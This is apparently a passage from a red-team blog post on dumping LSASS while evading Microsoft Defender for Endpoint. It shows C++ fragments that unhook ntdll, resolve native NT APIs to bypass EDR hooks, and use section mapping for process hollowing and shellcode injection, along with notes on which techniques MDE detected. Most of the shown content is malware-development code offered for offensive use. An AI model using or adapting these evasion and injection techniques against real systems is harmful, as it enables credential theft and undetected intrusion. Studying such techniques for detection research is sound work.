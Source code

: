 ```

    // unmap memory from local process
    status = ntUnmapViewOfSection(
        GetCurrentProcess(),
        hLocalAddress);
}
```

Testing agaist MDE we find the following alerts:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230915184322.png)

We find that Process Hollowing was detected. 

Now we can attempt replacing all remaining APIs to their NtAPI  equivalents. `NtCreateUserProcess` can be a little tricky to replace. Here is a blog showcasing how to do it: https://captmeelo.com/redteam/maldev/2022/05/10/ntcreateuserprocess.html

The source would look something like this: 

```
int main(int argc, char* argv[])
{
	[....snip....]

	size_t NtdllBAddress = reinterpret_cast<size_t>(hNtdll);
	printf("[+] Found ntdll base address: 0x%p\n", NtdllBAddress);
	int NtdllResult = CopyDLLFromDebugProcess(process.hProcess, NtdllBAddress, stealth);
	if (NtdllResult == 0)
	{
		printf("[+] Unhooked\n");
	}
	else
	{
		printf("[-] Failed to unhook\n");
	}

	// Get NtAPIs from clean NtDLL
	NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
	NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
	//NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
	NtCreateUserProcess ntCreateUserProcess = (NtCreateUserProcess)GetProcAddress(hNtdll, "NtCreateUserProcess");
	NtResumeProcess ntResumeProcess = (NtResumeProcess)GetProcAddress(hNtdll, "NtResumeProcess");
```

[+]: Shellcode located at c7160